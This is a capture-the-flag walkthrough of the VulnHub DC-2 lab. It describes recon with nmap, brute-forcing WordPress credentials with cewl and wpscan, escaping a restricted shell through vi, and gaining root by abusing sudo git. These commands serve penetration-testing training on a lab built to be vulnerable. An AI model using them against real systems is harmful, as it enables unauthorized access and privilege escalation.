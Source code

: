 Writeup

---
layout: single
title: DC-2 Writeup
tags: vulnhub
date: 2020-05-23
classes: wide
excerpt: DC-2 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing. 
---
DC-2 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing. Please do not forget to set up your hostname for dc-2, you can do this by editing `/etc/hosts` and inserting the IP of your machine then dc-2. `IP	dc-2`
## Recon
### Nmap Scan
```Host is up (0.00018s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.00 seconds
```
### Website 80-TCP
Upon visiting the site, we are greeted by a wordpress-type of a site and it seems that one of the tab in the navigation bar is the FLAG.

![f6f89e5a77d41206f1b806ade2ee3367.png](/blog/assets/images/DC-2/1eaeca1fa6cf4cdfbb50a9e0bdc98c36.png)
Hmmm, it looks like its hinting us to use a tool called `cewl`.
Technically, Cewl is a tool that is used to generate wordlists by going through the site you have given it to visit which means it makes a list of possible usernames,passwords and etc.

using the command `cewl http://dc-2 -w wordlist.txt` it generated a file that contains words, because of the hint in the FLAG 1 I think we need to bruteforce for credentials.

We can bruteforce wordpress credentials by using `wpscan` a tool use for enumerating wordpress and its components it also supports credential bruteforcing.

To bruteforce for the credentials use `wpscan --url URL -P wordlist.txt` and wait for a while.
```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
 ```
 
 ### User
 To get our initial foothold let's login to the wordpress portal first by visiting `http://dc-2/wp-admin/`.
 
 Looking around the site it seems that we can't find a way to gain foothold here but alas we have found another FLAG in the pages tab.
 
![c30c5f192fe37a3ee2c726bab8d9c320.png](/blog/assets/images/DC-2/1c69c8635bbb4f4e8e18e544ab35a558.png)
Hmmmm, another hint huh? it looks like its telling us that there's another way to get in but our nmap scan only has PORT 80 on it. This time let's do a full tcp nmap scan.

![full-tcp.png](/blog/assets/images/DC-2/73ef46075b234daab26526252eabd888.png)
Ahoy! it looks like we have another port which is `7744` let's try to figure out what service is running under that port by doing `nc dc-2 7744`. BOOM! we got ourselves a OPENSSH Port maybe this is the entry point that the FLAG 2 was trying to say.

Logging in with tom and his credentials we are in but unfortunately we are in a restricted environment :( fortunately there's still a way for us to get out of this restricted environment, by using `vi` and writing `:set shell=/bin/bash` and `:shell` we can get out of the place.

#### BROOKEN COOOMANDS EVERYWHERE
```
tom@DC-2:~$ id
bash: id: command not found
```
We can fix this, I know we can by setting 
```
export PATH=/usr/local/sbin:/sbin:/usr/sbin:/usr/bin:/bin:/usr/local/games:/usr/games
```
#### Root


![flag3.png](/blog/assets/images/DC-2/6a464bdb055845c28c84742bf8cdc05b.png)

Reading flag3 and again it is hinting us what to do next like the previous flags and right now it seems it is hinting us to change our user to Jerry and we shall do it!

![cbd0b9326f27dfdf87cb793b85a4c17d.png](/blog/assets/images/DC-2/0cbe77f8fcb44de6825b011642c13420.png)
Checking our permissions using `sudo -l` we now find that we can run `git` as root and by using our friendly neighborhood [spiderman](https://gtfobins.github.io/gtfobins/git/). 


![2af2c776c78cbb443f1a6d900d615f33.png](/blog/assets/images/DC-2/387d7d09ac04495e9f9c5b7da9618aa2.png)




We can root the machine  through using 
```
sudo git branch --help config
!/bin/sh
```
```
# whoami
root
# cat final-flag.txt
 __    __     _ _       _                    _ 
/ / /\ \ \___| | |   __| | ___  _ __   ___  / \
\ \/  \/ / _ \ | |  / _` |/ _ \| '_ \ / _ \/  /
 \  /\  /  __/ | | | (_| | (_) | | | |  __/\_/ 
  \/  \/ \___|_|_|  \__,_|\___/|_| |_|\___\/   


Congratulatons!!!

A special thanks to all those who sent me tweets
and provided me with feedback - it's all greatly
appreciated.

If you enjoyed this CTF, send me a tweet via @DCAU7.

# 
```









